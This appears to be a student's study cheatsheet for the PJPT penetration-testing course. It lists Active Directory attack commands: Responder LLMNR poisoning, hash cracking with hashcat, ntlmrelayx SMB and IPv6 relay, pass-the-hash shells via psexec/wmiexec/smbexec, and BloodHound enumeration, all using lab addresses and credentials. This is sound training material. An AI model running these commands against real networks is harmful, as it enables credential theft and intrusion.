 # PJPT-Notes
Cheatsheet from the PJPT course of TCM security.

# Enumeration
```bash
sudo arp-scan -l
```
```bash
netdiscover -r 192.168.5.0/24
```

```bash
nmap -T4 -p- -A 192.168.5.0/24
nmap -T4 -p- -A 192.168.5.1

nmap -T4 -p- -sS -sC 192.168.5.0/24
```

# Initial attacks for Active Directory
## LLMNR Poisoning
1. Start Responder, to capture NTLMv2 hashes
```bash
sudo responder -I tun0 -dP
```
2. If NTLMv2 hash was captured, copy it, save it to a txt file and crack it with hashcat
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## SMB Relay attack
<p>This attacks works, when SMB signing is disabled on the machines.</p>
1. Enumerate, if SMB signing is disabled
```bash
nmap -p445 192.168.5.0/24 --script=smb2-security-mode
```
2. Make changes in the Responder configuration

```bash
sudo nano /etc/responder/Responder.conf

SMB = Off
HTTP = Off
```

3. Start Responder
```bash
sudo responder -I tun0 -dP
```
4. Setup the relay
```bash
# to dump password hashes
sudo ntlmrelayx.py -tf targets.txt -smb2support

# to create a interactive shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

# to run commands to proof
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

# Gaining Shell Access
## Psexec
<p>Create a shell with psexec</p>

```bash
# for domain users
psexec.py test.local/fcastle:'Password1'@192.168.5.1

# for local users
psexec.py fcastle:'Password1'@192.168.5.1

# with local user and password hash
psexec.py Administrator@192.168.5.1 --hashes [LM-hash]:[NTLM-hash]
```

## Wmiexec
<p>Create a shell with wmiexec</p>

```bash
# with local user and password hash
wmiexec.py Administrator@192.168.5.1 --hashes [LM-hash]:[NTLM-hash]
```

## Smbexec
<p>Create a shell with smbexec</p>

```bash
# with local user and password hash
smbexec.py test.local/fcastle:'Password1'@192.168.5.1
```

## Metasploit
<p>Create a shell with metasploit</p>

```bash
use exploit/windows/smb/psexec
set SMBDomain test.local
set SMBUser fcastle
set SMBPass Password1
```

# IPv6 attacks
<p>If IPv6 is activated in the network, but no DNS server in use, we can imitate one.</p>

1. Open mitm6 for target domain
```bash
sudo mitm6 -d test.local
```

2. Start Ntlmrelayx.py
```bash
Ntlmrelayx.py -6 -t ldaps://192.168.5.1 -wh fakewpad.test.local -l lootme
```

3. You results will save into: '**/home/kali/lootme/domain_computers.html**'

# Post Compromise Enumeration Active Directory
## Domain Enumeration with ldapdomaindump
<p>Domain Enumeration with ldapdomaindump</p>

1. Run ldapdomaindump against domain controller - this will create files with information in about the domain
```bash
sudo ldapdomaindump ldaps://192.168.5.1 -u 'test.local\fcastle\' -p Password1
```

2. list all files and open the html files to investigate the domain information
```bash
# list all files
ls -l

# open up all html domain files
firefox domain_*.html
```

## Domain Enumeration with Bloodhound
<p>Domain Enumeration with Bloodhound</p>

1. Run bloodhound with credentials, to fetch information
```bash
sudo bloodhound-python -d [DOMAIN] -u [USERNAME] -p [USER-PW] -ns [DC-IP]

# example
sudo bloodhound-python -d test.local -u fcastle -p Password1 -ns 192.168.5.1 -c all
```

2. Start up neo4j database and bloodhound to import the files
```bash
# if you started the database the first time, set a new password - REMEMBER THE PASSWORD!
sudo neo4j console

# start bloodhound
sudo bloodhound
```

3. If bloodhound started, just drag and drop the json files into bloodhound and start investigation ;)

## Domain Enumeration with Plumhound
<p>Domain Enumeration with Plumhound</p>

1. Start up neo4j database and bloodhound
```bash
# if you started the database the first time, set a new password - REMEMBER THE PASSWORD!
sudo neo4j console

# start bloodhound
sudo bloodhound
```

2. Start Plumhound against the domain controller - BLOODHOUND MUST ALREADY RUNNING!
```bash
sudo python3 PlumHound.py --easy -p [USER-PW]

sudo python3 PlumHound.py -x tasks/default.tasks -p [USER-PW]
```

3. Finally open up the browser and investigate the results
